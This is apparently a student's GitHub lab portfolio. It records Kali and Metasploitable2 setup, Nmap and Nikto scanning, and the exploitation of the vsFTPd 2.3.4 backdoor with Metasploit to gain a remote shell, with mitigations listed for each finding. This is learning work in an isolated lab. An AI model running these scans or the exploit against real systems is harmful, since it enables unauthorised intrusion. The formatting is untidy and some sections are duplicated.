




# Cybersecurity Labs Portfolio 

Welcome to my hands-on cybersecurity lab portfolio!  
This is where I document everything I'm practicing — from virtual labs to tools like Nmap, Wireshark, Metasploit, and more.

- ## 📚 Table of Contents

## Table of Contents
- [Lab 1: Metasploitable2 Setup](#lab-1-metasploitable2-setup-vulnerable-machine-for-testing)
- [Lab 2: Kali Linux Setup and Reconnaissance](#lab-2-kali-linux-setup-and-reconnaissance)
- [Lab 3: Vulnerability Scanning with Nmap and Nikto](#lab-3-vulnerability-scanning-with-nmap-and-nikto)
- [Lab 4: Exploitation Using Metasploit](#lab-4-exploitation-using-metasploit)
- [What’s Next](#whats-next)

---

# Week 1 – Lab Setup and Initial Reconnaissance

## Objective
- Set up Kali Linux and Metasploitable VMs
- Verify network configuration
- Perform initial host discovery and reconnaissance

---

## 1. Verify Kali Linux IP Address
Screenshot:  


---

## 2. Verify Metasploitable IP Address
Screenshot:  


---

## 3. System Information
- Kali uname:   
- Metasploitable uname: 

---

## 4. Host Discovery
Used netdiscover to identify active hosts in the subnet.  
Screenshot:  


---

## 5. Network Reconnaissance
Started scanning the Metasploitable target.  
Screenshots:  
-   
- 

---

## Summary
In Week 1, I successfully:
- Set up the lab environment (Kali + Metasploitable).
- Verified connectivity and IP addresses.
- Ran initial scans to confirm both machines can communicate.

- ---

# Week 2 – Host Discovery & Reconnaissance

### Step 1 – Verify IP Addresses
- Kali IP: 192.168.56.103
- Metasploitable IP: 192.168.56.104


---

### Step 2 – Ping Test
- Kali → Metasploitable (Success: 0% packet loss)  
- Metasploitable → Kali (Success: 0% packet loss)


---

### Step 3 – ARP Table Check
- Verified discovered hosts in ARP table.  
- Confirmed that machines can see each other on the same subnet.


---

### Step 4 – Netdiscover Scan
- Scanned the subnet with Netdiscover.  
- Found active hosts: Kali, Metasploitable, and VirtualBox Host-Only Adapter.


---

### Step 5 – Nmap Service Scan
- Ran service detection scan (nmap -sV 192.168.56.104).  
- Discovered open ports and services (FTP, SSH, MySQL, Apache Tomcat, Samba, etc.).


## Week 2 Summary
In Week 2, I successfully:
- Verified IP addresses for both Kali and Metasploitable.
- Confirmed connectivity with ping tests (0% packet loss).
- Checked ARP tables to validate network visibility.
- Scanned the subnet with Netdiscover to discover active hosts.
- Used Nmap to identify open ports and running services on Metasploitable.


---
##  Lab 1: Metasploitable2 Setup (Vulnerable Machine for Testing)

Tool Used: VirtualBox  
System: Metasploitable2 (Ubuntu 2.6.24)  
Status:  Completed

###  What I Did:
- Imported the Metasploitable2 VM into VirtualBox
- Configured network settings (NAT and Host-only for Kali interaction)
- Logged in with default credentials: msfadmin/msfadmin
- Verified system status:
  ```bash
  ip a
  uname -a


## Lab 2: Kali Linux Setup and Reconnaissance  

## 1) Goal  
Set up Kali Linux in VirtualBox and perform basic network reconnaissance to identify the Metasploitable2 target.  

## 2) Environment  
- Host: Windows 11, VirtualBox 7.x  
- Attacker: Kali Linux 2025.2 (VirtualBox Image)  
- Target: Metasploitable2 (Ubuntu 2.6.24)  
- Network: Host-only (192.168.56.0/24)  

## 3) Steps & Commands  

*What I Did:*  
- Installed Kali Linux VM in VirtualBox  
- Connected it to the same network as Metasploitable2  
- Discovered Metasploitable2’s IP address  

*Verified system status:*
bash
ip a
uname -a


*Network discovery with Netdiscover:*
bash
netdiscover -r 192.168.56.0/24


*Basic Nmap scan:*
bash
nmap -sS [target_IP]


## 4) Results & Screenshots
- ip a confirmed Kali network interface up and running.
- netdiscover revealed Metasploitable2 IP (e.g., 192.168.56.101).
- Nmap detected several open ports (21-FTP, 22-SSH, 23-Telnet, 80-HTTP, 3306-MySQL).

(add screenshots here)

## 5) Findings & Mitigation
- *Telnet (23/tcp)* open → insecure plaintext protocol.  
  Mitigation: Disable Telnet, use SSH instead.  
- *FTP (21/tcp)* allows anonymous login → risk of unauthorized access.  
  Mitigation: Disable anonymous login, enforce authentication.

## 6) Reflection
This lab taught me how to install/configure Kali, connect VMs on host-only, and run recon with netdiscover + Nmap.


## Lab 3: Vulnerability Scanning with Nmap and Nikto

## 1) Goal  
Perform deeper vulnerability scanning by:  
- Using *Nmap* for service and version detection.  
- Running *Nikto* to identify web server vulnerabilities.  

## 2) Environment  
- Host: Windows 11, VirtualBox 7.x  
- Attacker: Kali Linux 2025.2 VM  
- Target: Metasploitable2 (Ubuntu 2.6.24)  
- Network: Host-only (192.168.56.0/24)  

## 3) Steps & Commands  

*Service and version detection with Nmap:*  
```bash
nmap -sV [target_IP]

Web vulnerability scanning with Nikto:

nikto -h http://[target_IP]


4) Results & Screenshots
	•	Nmap Results:
	•	Detected services and versions (Apache HTTPD 2.x, MySQL, vsFTPd).
	•	Confirmed target is running multiple outdated services.
	•	Nikto Results:
	•	Found potential vulnerabilities (e.g., outdated Apache server, directory indexing enabled, insecure HTTP headers).
	•	Reported multiple findings with severity levels.

 Add screenshots here:
	•	Nmap scan output
	•	Nikto scan results


5) Findings & Mitigation
	•	Apache HTTPD outdated → risk of known exploits.
	•	Mitigation: Upgrade to latest stable Apache version.
	•	Directory indexing enabled → information disclosure.
	•	Mitigation: Disable directory listing in Apache config.
	•	Missing security headers → weak against XSS/Clickjacking.
	•	Mitigation: Add X-Frame-Options, X-Content-Type-Options, CSP headers.


6) Reflection

This lab helped me move from basic reconnaissance (Lab 2) to detailed vulnerability analysis:
	•	Learned how Nmap’s -sV option reveals software versions.
	•	Used Nikto to identify common web vulnerabilities.
	•	Understood how to map results to real-world mitigations.


## Lab 4: Exploitation Using Metasploit

### 1) Goal
Demonstrate exploitation of a vulnerable service (vsFTPd 2.3.4 backdoor) on Metasploitable2 using the Metasploit Framework.

### 2) Environment
- Host: Windows 11, VirtualBox 7.x  
- Attacker: Kali Linux 2025.2 VM  
- Target: Metasploitable2 (Ubuntu 2.6.24 VM)  
- Tool: Metasploit Framework (msfconsole)  

### 3) Steps & Commands

*Launched Metasploit Framework:*
bash
msfconsole


*Searched for available exploits:*
bash
search vsftpd


*Selected and configured exploit module:*
bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST [target_IP]
exploit


*Interacted with the session (if successful):*
bash
sessions -i 1
whoami
uname -a


### 4) Results & Screenshots
- Successfully launched Metasploit and selected the vsFTPd 2.3.4 exploit.  
- Exploit executed → gained remote shell access to Metasploitable2.  
- Verified access using whoami and uname -a.  

Add screenshots here:  
- Metasploit module loaded  
- Exploit success message  
- Proof of shell access on target  

### 5) Findings & Mitigation
- *Finding:* vsFTPd 2.3.4 is vulnerable due to a known backdoor.  
  *Mitigation:* Upgrade or disable the vulnerable FTP service.  
- *Finding:* Exposed FTP service was accessible on the network.  
  *Mitigation:* Restrict access with firewall rules and enforce strong authentication.  

### 6) Reflection
This lab helped me move from basic reconnaissance (Lab 2) to detailed vulnerability analysis:  
- Learned how Nmap’s -sV option reveals software versions.  
- Used Nikto to identify common web vulnerabilities.  
- Understood how to map results to real-world mitigations.  

```

## Lab 4: Exploitation Using Metasploit

### 1) Goal
Demonstrate exploitation of a vulnerable service (vsFTPd 2.3.4 backdoor) on Metasploitable2 using the Metasploit Framework.

### 2) Environment
- Host: Windows 11, VirtualBox 7.x  
- Attacker: Kali Linux 2025.2 VM  
- Target: Metasploitable2 (Ubuntu 2.6.24 VM)  
- Tool: Metasploit Framework (msfconsole)


Stay tuned! 
 
 
